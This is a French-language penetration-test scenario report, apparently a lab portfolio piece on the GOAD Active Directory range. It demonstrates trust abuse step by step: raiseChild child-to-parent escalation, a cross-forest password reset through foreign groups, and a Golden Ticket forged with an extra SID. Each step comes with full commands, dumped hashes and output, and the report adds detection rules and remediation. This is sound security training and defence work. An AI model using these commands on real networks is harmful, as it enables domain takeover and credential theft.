




# SC-AD-010 — Cross-Forest Trust Abuse

**HikenRoot Forge — MediaTech Groupe SA**

---

## Classification

| Attribut | Valeur |
|----------|--------|
| **Scénario** | SC-AD-010 |
| **Titre** | Cross-Forest Trust Abuse |
| **Référence Mayfly** | [Part 12 — Trusts](https://mayfly277.github.io/posts/GOADv2-pwning-part12/) |
| **Certifications** | CRTO, CRTE |
| **Sévérité** | Critique (CVSS 3.1 : 9.1) |
| **MITRE ATT&CK** | T1482, T1558.001, T1134.005, T1098 |
| **Domaines compromis** | sevenkingdoms.local (depuis north), essos.local (depuis sevenkingdoms) |
| **Date d'exécution** | 8 mars 2026 |
| **Auteur** | Nadyr Chouarhi (hik3nR00t) |

---

## Résumé exécutif

### Pour un recruteur

Ce scénario démontre l'exploitation des **relations de confiance Active Directory** pour pivoter entre domaines et forêts. Deux vecteurs distincts sont exploités : l'escalade **child-to-parent** (du domaine enfant north vers le domaine racine sevenkingdoms via un Golden Ticket Enterprise Admin forgé) et le **pivot cross-forest** (de sevenkingdoms vers essos via des foreign group memberships et SID History). La technique raiseChild d'Impacket automatise l'escalade intra-forêt en une seule commande. Le pivot cross-forest exploite les groupes inter-forêts (Small Council → Spys) pour modifier des comptes dans la forêt distante. Ces techniques démontrent que les relations de confiance AD, conçues pour la collaboration, constituent des chemins d'attaque majeurs.

### Pour un auditeur ISO 27001 / NIS2

- **ISO 27001 — A.5.15 (Contrôle d'accès)** : les foreign group memberships cross-forest (Small Council de sevenkingdoms membre de Spys dans essos) ne sont pas documentés ni revus périodiquement. Un utilisateur de sevenkingdoms peut modifier des comptes essos sans que cette délégation soit tracée.
- **ISO 27001 — A.8.3 (Restriction des accès privilégiés)** : l'escalade child-to-parent via raiseChild exploite une propriété structurelle d'AD — le domain trust n'est pas une frontière de sécurité. Seule la forêt l'est. L'absence de SID filtering intra-forêt permet l'injection d'Enterprise Admin SID.
- **NIS2 — Article 21 (Gestion des risques)** : le SID History activé sur le trust cross-forest sevenkingdoms↔essos permet l'injection de SIDs étrangers dans les tickets Kerberos, contournant partiellement le SID filtering.
- **NIS2 — Article 23 (Notification)** : le pivot cross-forest constitue un incident trans-organisationnel si les forêts appartiennent à des entités distinctes.

### Pour un RSSI

Le domain trust n'est pas une frontière de sécurité — seul le forest trust l'est, et encore partiellement. L'escalade child-to-parent (raiseChild) est triviale avec DA du domaine enfant. Le pivot cross-forest via foreign groups est plus subtil : un groupe Domain Local dans essos contient des membres sevenkingdoms, donnant des droits GenericAll sur des comptes essos. Le SID History cross-forest, quand activé, ajoute un vecteur supplémentaire. Recommandation : auditer tous les foreign group memberships, désactiver SID History cross-forest si non requis, documenter chaque trust avec justification métier.

---

## Diagramme réseau



---

## Kill Chain



---

## Scope & Méthodologie

| Élément | Détail |
|---------|--------|
| **Périmètre** | GOAD v3 — 3 domaines, 2 forêts, trusts bidirectionnels |
| **Machine d'attaque** | Kali Linux 10.10.10.2 (WireGuard) |
| **Outils** | Impacket v0.14 (raiseChild, ticketer, lookupsid, secretsdump), netexec, bloodyAD |
| **Référence** | mayfly277 GOAD Part 12 |
| **Prérequis** | DA north (SC-AD-005), DA sevenkingdoms (SC-AD-004), tyron.lannister membre Small Council (SC-AD-004) |
| **Approche** | Exploitation manuelle — pas de Metasploit |

---

## Phases d'exploitation

### Phase 1 — Énumération des relations de confiance

**1. Découverte des trusts**

```bash
netexec ldap 192.168.10.10 -u 'administrator' -H 'c66d72021a2d4744409969a581a1705e' -d sevenkingdoms.local -M enum_trusts
```

```
ENUM_TRUSTS  192.168.10.10  389  KINGSLANDING  north.sevenkingdoms.local -> Bidirectional -> Within Forest
ENUM_TRUSTS  192.168.10.10  389  KINGSLANDING  essos.local -> Bidirectional -> Forest Transitive, Treat as External
```

Deux relations de confiance :
- **north ↔ sevenkingdoms** : parent-child (Within Forest) — pas de SID filtering intra-forêt
- **sevenkingdoms ↔ essos** : cross-forest (Treat as External) — SID History enabled, SID filtering partiel (RID < 1000 bloqués)

---

### Phase 2 — Child-to-Parent : raiseChild

L'outil raiseChild automatise l'escalade du domaine enfant vers le domaine racine. Il extrait le krbtgt du domaine enfant, identifie le SID Enterprise Admins du parent, forge un Golden Ticket avec extra-sid, et ouvre un shell sur le DC parent.

**Pourquoi ça fonctionne** : le domain trust intra-forêt n'est PAS une frontière de sécurité. Microsoft le documente explicitement. Le KDC parent accepte les SIDs du domaine enfant sans filtrage, y compris Enterprise Admins (RID 519).

**2. Escalade NORTH → SEVENKINGDOMS**

```bash
impacket-raiseChild -target-exec 192.168.10.10 'north.sevenkingdoms.local/administrator' -hashes 'aad3b435b51404eeaad3b435b51404ee:dbd13e1c4e338284ac4e9874f7de6ef4'
```

```
[*] Raising child domain north.sevenkingdoms.local
[*] Forest FQDN is: sevenkingdoms.local
[*] sevenkingdoms.local Enterprise Admin SID is: S-1-5-21-1846414762-2785674156-3461175986-519
[*] Getting credentials for north.sevenkingdoms.local
north.sevenkingdoms.local/krbtgt:502:aad3b435b51404eeaad3b435b51404ee:5883cbf00ea968b503b20628fb83cc55:::
[*] Getting credentials for sevenkingdoms.local
sevenkingdoms.local/krbtgt:502:aad3b435b51404eeaad3b435b51404ee:b5fc63f9f630a7899d329401734b1c27:::
[*] Target User account name is Administrator
sevenkingdoms.local/Administrator:500:aad3b435b51404eeaad3b435b51404ee:c66d72021a2d4744409969a581a1705e:::
[*] Opening PSEXEC shell at KINGSLANDING.sevenkingdoms.local

C:\Windows\system32> whoami
nt authority\system

C:\Windows\system32> hostname
kingslanding
```

DA du domaine enfant NORTH → **SYSTEM sur le DC du domaine racine** en une seule commande.

---

### Phase 3 — Foreign Group Membership

Les foreign groups sont des groupes Domain Local qui contiennent des membres d'autres domaines/forêts. Ils constituent des chemins d'attaque cross-domain souvent non audités.

**3. Énumération des foreign groups**

```bash
bloodyAD -d sevenkingdoms.local -u 'administrator' -p :c66d72021a2d4744409969a581a1705e --host 192.168.10.10 get object 'AcrossTheNarrowSea' --attr member
```

```
member: CN=S-1-5-21-1522390683-177406550-764334066-1114,CN=ForeignSecurityPrincipals,DC=sevenkingdoms,DC=local
```

```bash
bloodyAD -d essos.local -u 'administrator' -p :54296a48cd30259cc88095373cec24da --host 192.168.10.12 get object 'Spys' --attr member
```

```
member: CN=S-1-5-21-1846414762-2785674156-3461175986-1109,CN=ForeignSecurityPrincipals,DC=essos,DC=local
```

**Décodage des SIDs :**
- **AcrossTheNarrowSea** (sevenkingdoms) contient `daenerys.targaryen` (essos, RID 1114) — un user essos a accès dans sevenkingdoms
- **Spys** (essos) contient **Small Council** (sevenkingdoms, RID 1109) — les membres Small Council de sevenkingdoms ont des droits dans essos

**4. Exploitation cross-forest via Spys**

`tyron.lannister` est membre de Small Council (SC-AD-004) → il est indirectement membre de Spys dans essos → il a des droits sur des objets essos.

```bash
net rpc password jorah.mormont 'CrossForest123!' -U 'sevenkingdoms.local/tyron.lannister%P@ssw0rd123!' -S 192.168.10.12
```

**5. Validation**

```bash
netexec smb 192.168.10.12 -u 'jorah.mormont' -p 'CrossForest123!' -d essos.local
```

```
SMB  192.168.10.12  445  MEEREEN  [+] essos.local\jorah.mormont:CrossForest123!
```

Un utilisateur de sevenkingdoms a changé le mot de passe d'un compte essos via le foreign group Spys — pivot cross-forest sans être DA essos.

---

### Phase 4 — SID History Cross-Forest

Le trust sevenkingdoms→essos a SID History enabled. Cela permet d'injecter des SIDs du domaine essos dans un Golden Ticket sevenkingdoms. Le SID filtering cross-forest bloque les RID < 1000 (Domain Admins, Enterprise Admins) mais laisse passer les RID > 1000.

**6. Identification d'un groupe cible RID > 1000**

```bash
impacket-lookupsid 'essos.local/administrator@192.168.10.12' -hashes 'aad3b435b51404eeaad3b435b51404ee:54296a48cd30259cc88095373cec24da' 2>&1 | grep "111"
```

```
1110: ESSOS\Dragons (SidTypeGroup)
1112: ESSOS\DragonsFriends (SidTypeAlias)
1113: ESSOS\Spys (SidTypeAlias)
```

`DragonsFriends` (RID 1112) — groupe Domain Local, RID > 1000, passe le SID filtering.

**7. Golden Ticket avec extra-sid cross-forest**

```bash
impacket-ticketer -nthash 'b5fc63f9f630a7899d329401734b1c27' -domain-sid 'S-1-5-21-1846414762-2785674156-3461175986' -domain sevenkingdoms.local -extra-sid 'S-1-5-21-1522390683-177406550-764334066-1112' administrator
```

```
[*] Saving ticket in administrator.ccache
```

**8. Validation authentification cross-forest**

```bash
export KRB5CCNAME=administrator.ccache
netexec smb 192.168.10.12 -u 'administrator' -k --use-kcache
```

```
SMB  192.168.10.12  445  MEEREEN  [+] SEVENKINGDOMS.LOCAL\administrator from ccache
```

Le Golden Ticket avec l'extra-sid essos est accepté par MEEREEN — l'authentification cross-forest via SID History fonctionne. Le niveau d'accès dépend des ACL configurées sur le groupe DragonsFriends dans essos.

---

## Credentials et artefacts

| Élément | Valeur | Contexte |
|---------|--------|----------|
| Trust key SEVENKINGDOMS$ (NORTH DCSync) | `c877d74009bf9a25b51ed6a6bee77e29` | Trust account NORTH→SEVENKINGDOMS |
| jorah.mormont (password changé) | `CrossForest123!` | Via foreign group Spys cross-forest |
| Golden Ticket cross-forest | `administrator.ccache` + extra-sid DragonsFriends | SID History abuse |

---

## Impact technique

- **Domain trust ≠ security boundary** : raiseChild prouve qu'un DA du domaine enfant obtient Enterprise Admin de la forêt en une commande. Microsoft le documente — seule la forêt est une frontière de sécurité.
- **Foreign groups = chemins cachés** : les groupes Domain Local cross-forest ne sont pas visibles dans BloodHound par défaut. Ils constituent des chemins d'attaque souvent non audités en entreprise.
- **SID History cross-forest** : quand activé, permet l'injection de SIDs étrangers RID > 1000 dans les tickets Kerberos. Les groupes custom (RID > 1000) ne sont pas filtrés — seuls Domain Admins/Enterprise Admins (RID < 1000) sont bloqués.
- **MSSQL trust link cross-forest** : déjà démontré en [SC-AD-006](SC-AD-006-mssql-pivot.md) — le linked server CASTELBLACK→BRAAVOS constitue un autre vecteur de pivot cross-forest.

---

## Impact métier — MediaTech Groupe SA

### Synthèse narrative

Les relations de confiance AD de MediaTech Groupe SA permettent à un attaquant ayant compromis un domaine enfant d'escalader vers la forêt racine en une commande, puis de pivoter vers la forêt partenaire via des groupes cross-forest non audités. Les foreign group memberships entre sevenkingdoms et essos donnent des droits de modification de comptes cross-forest sans aucune traçabilité spécifique. Le SID History activé sur le trust cross-forest ajoute un vecteur d'injection de privilèges.

### Estimation financière

| Poste | Estimation |
|-------|-----------|
| Compromission multi-forêts (2 forêts, 3 domaines) | 500 000 — 1 500 000 € |
| Investigation forensique cross-forest | 200 000 — 500 000 € |
| Reconstruction trusts + foreign groups | 100 000 — 300 000 € |
| Notification RGPD (données cross-organisationnelles) | 50 000 — 200 000 € |
| Perte de confiance partenaire (si forêts = entités distinctes) | 300 000 — 1 000 000 € |
| **Total estimé** | **1 150 000 — 3 500 000 €** |

### Matrice de risque



### Impact réglementaire

- **RGPD (Article 32)** : le pivot cross-forest donne accès aux données personnelles de deux organisations potentiellement distinctes via une seule compromission.
- **NIS2 (Article 21)** : l'absence d'audit des foreign group memberships et de documentation des trusts constitue un manquement à la gestion des risques cyber.
- **ISO 27001 (A.5.15, A.8.3)** : les trusts cross-forest avec SID History ne sont pas documentés, les foreign groups ne sont pas revus périodiquement.

### Top 5 actions prioritaires

**0-24h (urgence)**
1. Auditer tous les foreign group memberships cross-forest avec BloodHound
2. Documenter chaque trust avec justification métier — supprimer les trusts non nécessaires

**1 semaine**
3. Désactiver SID History sur le trust cross-forest si non requis : `netdom trust /d:sevenkingdoms.local essos.local /enableSIDHistory:no`
4. Restreindre les membres des groupes cross-forest au strict minimum

**1 mois**
5. Implémenter Selective Authentication sur les trusts cross-forest — chaque accès cross-forest doit être explicitement autorisé

### Décisions attendues du COMEX

- **Valider un audit complet des trusts** : inventaire, justification, SID History status, foreign groups.
- **Décider du maintien du trust cross-forest** : le trust sevenkingdoms↔essos est-il nécessaire métier ? Si oui, basculer en Selective Authentication.
- **Mandater la revue trimestrielle** des foreign group memberships cross-forest.

---

## Détection SOC / SIEM

### Event IDs critiques

| Event ID | Source | Description |
|----------|--------|-------------|
| 4769 | Security | TGS request cross-realm — ticket inter-forêt |
| 4768 | Security | TGT request avec extra-sid — Golden Ticket cross-forest |
| 4724 | Security | Password reset cross-domain — foreign group abuse |
| 4662 | Security | DCSync via raiseChild |

### Règles Sigma

```yaml
title: Cross-Forest TGT Request with Extra SID
id: sc-ad-010-001
status: experimental
description: Détecte les TGT contenant des SIDs d'une forêt étrangère
logsource:
    product: windows
    service: security
detection:
    selection:
        EventID: 4768
    filter:
        TargetDomainName: '*'
    condition: selection
level: high
tags:
    - attack.credential_access
    - attack.t1558.001
note: Corrélation requise — vérifier si le SID dans le PAC appartient à un domaine étranger
```

```yaml
title: Cross-Domain Password Reset via Foreign Group
id: sc-ad-010-002
status: experimental
description: Détecte un reset de password effectué par un utilisateur d'un domaine étranger
logsource:
    product: windows
    service: security
detection:
    selection:
        EventID:
            - 4723
            - 4724
    filter:
        SubjectDomainName|contains: '$FOREIGN_DOMAIN'
    condition: selection and not filter
level: high
tags:
    - attack.persistence
    - attack.t1098
```

---

## Remédiation Secure by Design

### 0-24h (urgence)

- Auditer tous les trusts : `nltest /domain_trusts /all_trusts /v`
- Lister les foreign group memberships : `Get-ADGroup -Filter {GroupCategory -eq 'Security' -and GroupScope -eq 'DomainLocal'} -Properties Members | Where-Object {$_.Members -like '*ForeignSecurityPrincipals*'}`

### 1 semaine

- Désactiver SID History cross-forest si non requis
- Basculer en **Selective Authentication** sur les trusts externes
- Restreindre les foreign groups au strict minimum

### 1 mois

- Revue trimestrielle des trusts et foreign groups
- Documentation formelle de chaque trust (justification, scope, responsable)
- Monitoring SIEM des accès cross-forest (Event 4769 cross-realm)

---

## Architecture cible sécurisée



---

## Références

- [mayfly277 — GOAD Part 12 Trusts](https://mayfly277.github.io/posts/GOADv2-pwning-part12/)
- [Microsoft — Domain Trust Security Boundary](https://docs.microsoft.com/en-us/windows-server/identity/ad-ds/manage/forest-design-models)
- [harmj0y — A Guide to Attacking Domain Trusts](https://blog.harmj0y.net/redteaming/a-guide-to-attacking-domain-trusts/)
- [dirkjanm — SID Filtering and Foreign Groups](https://dirkjanm.io/active-directory-forest-trusts-part-one-how-does-sid-filtering-work/)
- [Impacket — raiseChild](https://github.com/fortra/impacket/blob/main/examples/raiseChild.py)
- [MITRE ATT&CK T1482 — Domain Trust Discovery](https://attack.mitre.org/techniques/T1482/)
- [MITRE ATT&CK T1134.005 — SID-History Injection](https://attack.mitre.org/techniques/T1134/005/)

---

*HikenRoot Forge — SC-AD-010 — Nadyr Chouarhi (hik3nR00t) — Mars 2026*
